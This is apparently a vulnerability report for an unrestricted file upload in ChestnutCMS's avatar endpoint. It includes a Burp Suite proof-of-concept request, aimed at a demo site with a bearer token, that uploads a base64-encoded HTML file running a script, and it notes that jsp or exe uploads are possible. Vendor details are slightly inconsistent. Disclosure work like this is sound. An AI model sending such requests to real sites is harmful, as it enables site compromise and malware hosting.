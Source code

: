 **[CVE-ID]**

**[PRODUCT]**

ChestnutCMS

**[Vendor of Product]**

[https://github.com/Thecosy/iceCMS?tab=readme-ov-file](https://gitee.com/liweiyi/ChestnutCMS)

**[VERSION]**

ChestnutCMS <=1.5.0

**[Vulnerability Type]**

File Upload

**[Description]**
Based on the code analysis, it was determined that the /avatar API endpoint receives a base64 string as input. This string is then passed to the memberService.uploadAvatarByBase64 method for processing. Within the service, the base64-encoded image is parsed. For example, given a string like:
data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
the content after the comma is extracted and decoded using Base64.getDecoder().decode().
The substring from the 11th character up to the first occurrence of a semicolon (;) is assigned to the suffix variable (representing the file extension). The decoded content is then written to a file.
However, the file extension is not validated, and since this functionality is exposed to the frontend, it poses significant security risks.



## POC：
Test with the official demonstration site and use the provided demonstration account
![image](https://github.com/user-attachments/assets/8f09a097-8729-4b9c-a199-4e17368d081c)

After logging in, replace the Authorization-M in the PoC with your account information.
Use Burp Suite to send the following crafted malicious 

PoC:

```
POST /api/member/avatar HTTP/1.1
Host: swikoon.1000mz.com
Authorization-M: Bearer b67fafaf-dd79-4c6d-8e6a-51f23a14a5b0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymTQcZR4jrbYbTdAy


------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="action"

wpcom_cropped_upload
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="nonce"

undefined
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="image"

data:image/html;base64,PGh0bWw+PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPjwvaHRtbD4=
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="type"

0
------WebKitFormBoundarymTQcZR4jrbYbTdAy
Content-Disposition: form-data; name="user"

443381386166341
------WebKitFormBoundarymTQcZR4jrbYbTdAy--
```

![image](https://github.com/user-attachments/assets/cfa02ddd-ad75-4c8c-b145-faa3f91ffb07)

Access the return address
![image](https://github.com/user-attachments/assets/ea6cff33-0831-438d-a091-4c361ea30f9b)
Of course, you can also upload jsp or exe files

demo site
http://news.1000mz.com

official website
https://gitee.com/liweiyi/ChestnutCMS
https://www.1000mz.com/




